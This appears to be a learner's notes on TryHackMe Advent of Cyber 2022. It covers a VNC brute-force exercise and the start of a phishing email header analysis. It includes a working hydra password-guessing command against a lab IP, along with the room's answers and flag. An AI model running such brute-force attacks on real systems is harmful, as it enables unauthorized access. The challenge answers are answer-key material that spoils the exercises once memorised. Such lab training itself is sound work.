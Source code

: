#### Notes
- Didn't do intense search and switched to attacking the [[VNC]] (Virtual Network Computing) server.
### `vnc` brute-forcing using [[hydra]]
```sh
sami@bt:~/Documents/THM/Rooms/Advent_of_Cyber/day5$ hydra -u -V -f  -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt vnc://10.10.79.200
...
[5900][vnc] host: 10.10.79.200   password: 1q2w3e4r
...
```
## Exercise
Given: In the terminal window below, we use Hydra to find the password of the username `alexander` that allows access via SSH.
	
Use Hydra to find the VNC password of the target with IP address `10.10.79.200`. What is the password?
	1q2w3e4r
Using a VNC client on the AttackBox, connect to the target of IP address `10.10.79.200`. What is the flag written on the target’s screen?  
	thm{I_SEE_YOUR_SCREEN}
If you liked the topics presented in this task, check out these rooms next: [Protocols and Servers 2](https://tryhackme.com/room/protocolsandservers2), [Hydra](https://tryhackme.com/room/hydra), [Password Attacks](https://tryhackme.com/room/passwordattacks), [John the Ripper](https://tryhackme.com/room/johntheripper0).
# Day 6 `Email Analyzis` It's beginning to look a lot like phishing
## Analyzing the email
- Subject: Urgent: Blue section is down. Switch to the load share plan!
- From: Chief Elf <chief.elf@santaclaus.thm>
- Date: Tue, 6 Dec 2022 00:00:01 +0000
- To: elves.all@santaclaus.thm <elves.all@santaclaus.thm>
- Message-Id: <QW9DMjAyMl9FbWFpbF9BbmFseXNpcw==>
- Return-Path: <murphy.evident@bandityeti.thm>
```sh
ubuntu@ip-10-10-57-46:~/Desktop$ emlAnalyzer -i Urgent\:.eml --header
 ==============
 ||  Header  ||
 ==============
X-Pm-Content-Encryption.....end-to-end
X-Pm-Origin.................internal
Subject.....................Urgent: Blue section is down. Switch to the load share plan!
From........................Chief Elf <chief.elf@santaclaus.thm>
Date........................Tue, 6 Dec 2022 00:00:01 +0000
Mime-Version................1.0
Content-Type................multipart/mixed;boundary=---------------------03edd9c682a0c8f60d54b9e4bb86659f
To..........................elves.all@santaclaus.thm <elves.all@santaclaus.thm>
X-Attached..................Division_of_labour-Load_share_plan.doc
Message-Id..................<QW9DMjAyMl9FbWFpbF9BbmFseXNpcw==>
X-Pm-Spamscore..............3
Received....................from mail.santaclaus.thm by mail.santaclaus.thm; Tue, 6 Dec 2022 00:00:01 +0000
X-Original-To...............elves.all@santaclaus.thm
Return-Path.................<murphy.evident@bandityeti.thm>
Delivered-To................elves.all@santaclaus.thm
```
- From........................Chief Elf <chief.elf@santaclaus.thm>
- To..........................elves.all@santaclaus.thm <elves.all@santaclaus.thm>
- X-Pm-Spamscore..............3